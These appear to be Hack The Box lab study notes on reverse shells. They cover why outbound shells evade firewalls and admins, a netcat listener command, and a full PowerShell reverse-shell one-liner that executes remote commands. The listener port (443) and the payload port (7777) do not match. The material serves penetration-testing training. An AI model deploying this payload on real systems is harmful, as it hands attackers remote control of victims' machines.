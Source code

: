 ### What Is It?

With a reverse shell, the **attack box** has a listener running, and the **target** initiates the connection. The attack box acts as the server, and the target acts as the client.

```
[Attack Box with Listener] <----- [Target System]
10.10.14.15:1337                  10.10.14.20
```

### Advantages of Reverse Shells

1. **Firewall Evasion**: Outbound connections are less likely to be blocked
2. **Admin Oversight**: Admins often overlook outbound connections
3. **Common Ports**: Can use ports like 80, 443, 53 that are rarely blocked
4. **Better Detection Evasion**: Harder to detect than incoming connections

### Useful Resources

- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md): Contains various reverse shell payloads
- Remember: Admins are aware of public repositories and may tune security controls accordingly

### Hands-on With A Simple Reverse Shell in Windows

#### Step 1: Start Netcat Listener (Attack Box)

```bash
kabaneridev@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

**Why Port 443?**
- Common HTTPS port
- Rarely blocked outbound
- Appears legitimate
- Organizations rely on HTTPS for daily operations

**Note**: Advanced firewalls with deep packet inspection (DPI) and Layer 7 visibility may still detect reverse shells regardless of port.

#### Step 2: PowerShell Reverse Shell (Target)

**Key Considerations:**
- What applications are present on the target?
- What shell languages are available?
- Use "living off the land" techniques when possible
- Netcat is not native to Windows

**PowerShell Reverse Shell One-liner:**
```powershell
$LHOST = "10.10.14.55"; $LPORT = 7777; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
